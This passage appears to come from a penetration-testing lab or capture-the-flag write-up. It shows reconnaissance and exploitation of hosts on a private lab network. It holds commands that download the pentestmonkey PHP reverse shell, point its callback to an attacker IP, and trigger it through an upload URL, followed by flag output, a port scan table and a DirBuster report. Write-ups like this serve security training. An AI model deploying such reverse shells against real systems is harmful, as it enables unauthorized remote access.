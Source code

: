 {% tab title="Generate PHP RevShell" %}
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sed -i 's/127.0.0.1/172.16.64.10/' php-payload.php
```
{% endtab %}

{% tab title="Trigger from browser" %}
```
Simply open:
http://75ajvxi36vchsv584es1.foocorp.io/app/upload/php-reverse-shell.php
```
{% endtab %}
{% endtabs %}

{% hint style="success" %}
**Flag encountered through PHP reverse shell**

```text
$ cat flag.txt
Congratulations, you got this!
$ pwd
/var/www/html
```
{% endhint %}

### ✔️172.16.64.92 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 53/tcp | open | domain | dnsmasq 2.75 |
| 80/tcp | open | http | Apache httpd 2.4.18 |
| 63306/tcp | open | mysql | MySQL 5.7.25-0ubuntu0.16.04.2 |

{% tabs %}
{% tab title="OWASP Dirbuster 1.0-RC1" %}
* Target URL: [http://172.16.64.](http://172.16.64.81)92
* File Extension: \*
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
{% endtab %}

{% tab title="Report" %}
```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Thu Jul 22 17:24:49 EDT 2021
--------------------------------

http://172.16.64.92:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/images/
/assets/
/assets/js/
/assets/css/
/assets/fonts/
/assets/sass/
/assets/css/images/
/assets/sass/libs/
```